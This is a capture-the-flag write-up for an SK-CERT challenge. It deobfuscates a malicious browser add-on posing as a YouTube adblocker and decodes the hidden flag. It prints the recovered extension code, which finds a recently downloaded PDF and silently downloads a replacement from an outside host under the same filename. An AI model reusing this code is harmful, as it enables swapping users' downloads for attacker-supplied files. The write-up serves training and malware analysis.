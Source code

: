 # Addon

> Points: 6

> URL: https://drive.google.com/file/d/1YiA3N38praUVqPlTjB9L1amt_a8PezR8/view?usp=sharing </br>
Our Security Operations Center (SOC) has identified a malicious browser add-on distributed via zip file. It purports to be an adblocker capable of bypassing YouTube's new anti-adblock mechanism, but it appears to perform a different function. Your task is to conduct an analysis of the add-on.

Downloaded `addon.zip` contains following files:

```
  Date      Time    Attr         Size   Compressed  Name
------------------- ----- ------------ ------------  ------------------------
2024-03-31 22:29:34 ....A      2074696      2075331  addon/icon.png
2024-03-31 22:53:52 ....A          316          192  addon/manifest.json
2024-03-31 22:35:46 ....A          323          213  addon/popup.html
2024-03-31 22:45:02 ....A        19125         1528  addon/popup.js
------------------- ----- ------------ ------------  ------------------------
2024-03-31 22:53:52            2094460      2077264  4 files

```

After looking at `popup.js` we see it's heavily obfuscated:

![](img/20240614162421.png)

We tried various online deobfuscation tools but results were no good, so we started with manual deobfuscation. We made following replacements at first step:

```
가 = (!![] + [])[0] + ([] + {})[1] + (([] + [])[([] + {})[5] + ([] + {})[1] + ([][
    []
] + [])[1] + (![] + [])[3] + (!![] + [])[0] + (!![] + [])[1] + ([][
    []
] + [])[0] + ([] + {})[5] + (!![] + [])[0] + ([] + {})[1] + (!![] + [])[1]] + [])[9] + (!![] + [])[0] + (!![] + [])[1] + ([][
    []
] + [])[5] + ([][
    []
] + [])[1] + (([] + [])[([] + {})[5] + ([] + {})[1] + ([][
    []
] + [])[1] + (![] + [])[3] + (!![] + [])[0] + (!![] + [])[1] + ([][
    []
] + [])[0] + ([] + {})[5] + (!![] + [])[0] + ([] + {})[1] + (!![] + [])[1]] + [])[14];
나 = ([] + {})[5] + ([] + {})[1] + ([][
    []
] + [])[1] + (![] + [])[3] + (!![] + [])[0] + (!![] + [])[1] + ([][
    []
] + [])[0] + ([] + {})[5] + (!![] + [])[0] + ([] + {})[1] + (!![] + [])[1];

다 = (![] + [])[0] + (![] + [])[2] + (![] + [])[1] + (!![] + [])[0];

あ = (![] + [])[1];

い = ([] + {})[2];

う = (!![] + [])[1];

$ = (![] + [])[3];

_ = (!![] + [])[3];

가가 = ([] + {})[5];

가나 = ([][
    []
] + [])[0];
가다 = ([][
    []
] + [])[2];

가あ = ([][
    []
] + [])[5];

가い = ([][
    []
] + [])[1];

가う = ([] + {})[1];

가$ = (![] + [])[0];

가_ = (1 / 0 + [])[0];

나가 = (1 / 0 + [])[7];

나나 = (![] + [])[2];

나다 = (!![] + [])[0];
```

Next steps was following substitutions:

```
(25)[toString](30) = p
((0)[constructor][])[11] = m
(17)[toString](20) = h
(32)[toString](33) = w
(20)[toString](21) = k
[][flat][constructor](return unescape("%0a"))() = new line
(26)[toString](30) = q
(([][])[constructor][])[14] = g
(([][])[constructor][])[9] = s
([][flat][])[23] = v
(33)[toString](34) = x
[][flat][constructor](return unescape("%46"))() = F
[][flat][constructor](return unescape("%4c"))()= L
[][flat][constructor](return unescape("%4d"))()= M
[][flat][constructor](return escape(([]+[])["sub"]()))()[8] = e
[][flat][constructor](return escape(([]+[])["sub"]()))()[2] = C
[][flat][constructor](return escape([]["flat"]))() = D
[48]([]{})[8] = O
((![])[constructor][])[9] = B
([]{})[3] = j
```

After which we got following code:

```
document.addeventListener(""DOMContentLoaded"", function() {  
    var queryInfo = {    orderBy: [""-startTime""],    limit: 10  };
    chrome.downloads.search(queryInfo, function(results) {      
        var downloaded = false;
        results.foreach(function(item) {
            if (item.filename.includes(".pdf") && !item.filename.includes("(") && !downloaded) {        
                downloaded = true;
                let s = [    0xc7, 0xd9, 0x0e, 0xed, 0xeb, 0xbf, 0xc9, 0x75,    0xa1, 0xfb, 0xf3, 0xc5, 0xfd, 0x9b, 0x95, 0xa7,    0x2c, 0x89, 0x7b, 0xd5, 0x2c, 0x8b, 0x89, 0x1e,    0x81, 0xa5, 0x38];
                for (let m = 0; m < s.length; ++m) {    
                    let c = s[m];
                    c = (c >> 1) | (c << 7);
                    c = ~c;
                    c += 0x37;
                    c ^= m;
                    c &= 0xFF;
                    s[m] = c;
                }          
                var name = item.filename.split("\\\\").slice(-1)              
                if (string.fromCharCode.apply(null, s.map(byte => byte & 0xFF)).includes("s")){                  
                    chrome.downloads.download({      
                    url: "http://int3.sk/bf5075abd15e3d41e2d3b78b28199eab/temp.pdf",filename: name.join()          
                    });
                }
            }
        });
    });
});
```
> NOTE: On discord channel in the CyberGame Write-ups forum, there was great way how to deobfuscate js code:
```
document = {}
document.addEventListener = function (a, b) {
    console.log(a);
    console.log(b.toString());
}
// paste original popup.js
```

We see that there is variable `s` that looks suspicious and probably is obfuscated flag. We asked GhatGPT to help us decode the string which it did in nice explanative way with python code which after execution we got the flag:

```
# Given byte array
s = [
    0xc7, 0xd9, 0x0e, 0xed, 0xeb, 0xbf, 0xc9, 0x75,
    0xa1, 0xfb, 0xf3, 0xc5, 0xfd, 0x9b, 0x95, 0xa7,
    0x2c, 0x89, 0x7b, 0xd5, 0x2c, 0x8b, 0x89, 0x1e,
    0x81, 0xa5, 0x38
]

# Decode the array
for m in range(len(s)):
    c = s[m]
    c = (c >> 1) | (c << 7)  # Rotate right by 1
    c = ~c  # Invert bits
    c += 0x37  # Add 0x37
    c ^= m  # XOR with index m
    c &= 0xFF  # Ensure 8-bit value
    s[m] = c

# Print the decoded array
decoded_string = ''.join(chr(c) for c in s)
print(f'{decoded_string}')
```

```
$ python popup_decode.py
SK-CERT{n07_4dbl0ck_4dd0n}
```

> flag: `SK-CERT{n07_4dbl0ck_4dd0n}`



